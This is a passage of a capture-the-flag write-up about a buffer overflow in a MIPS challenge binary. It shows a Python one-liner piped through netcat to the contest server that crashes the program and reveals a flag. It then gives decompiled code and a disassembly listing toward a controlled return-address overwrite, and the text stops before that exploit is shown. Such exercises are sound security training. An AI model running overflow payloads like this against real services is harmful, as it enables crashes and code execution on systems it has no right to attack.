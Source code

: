 We see there's a buffer of 260 bytes, which the program reads into using `scanf`. We can easily overflow this buffer.

### Uncontrolled Crash

We just overrun the buffer with >260 bytes to get the first flag:

```console
root@kali:/media/sf_CTFs/google/STOP_GAN# { echo "run"; python -c "print 'a'*300";} | nc buffer-overflow.ctfcompetition.com 1337
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
 Bonus flag for controlling the crash.

Console commands:
run
quit
>>Inputs: run
CTF{Why_does_cauliflower_threaten_us}
Cauliflower systems never crash >>
segfault detected! ***CRASH***
Console commands:
run
quit
```

What happens here is that the signal handler, which was registered to handle a segmentation fault with `signal(0xb,write_out);`, gets called and outputs the flag:
```c
void write_out(void)
{
  printf("segfault detected! ***CRASH***");
  print_file("flag0");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

### Controlled Crash

It looks like we'd like to jump to:
```c
void local_flag(void)
{
  print_file("flag1");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

This function starts at:
```assembly
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined local_flag()
                               assume gp = 0x4a8970
                               assume t9 = 0x400840
             undefined         v0:1            <RETURN>
             undefined4        Stack[-0x4]:4   local_4                                 XREF[1]:     00400850(W)  
             undefined4        Stack[-0x8]:4   local_8                                 XREF[1]:     00400854(W)  
             undefined4        Stack[-0x10]:4  local_10                                XREF[1]:     0040085c(W)  
                             local_flag                                      XREF[1]:     main:004009e0(c)  
```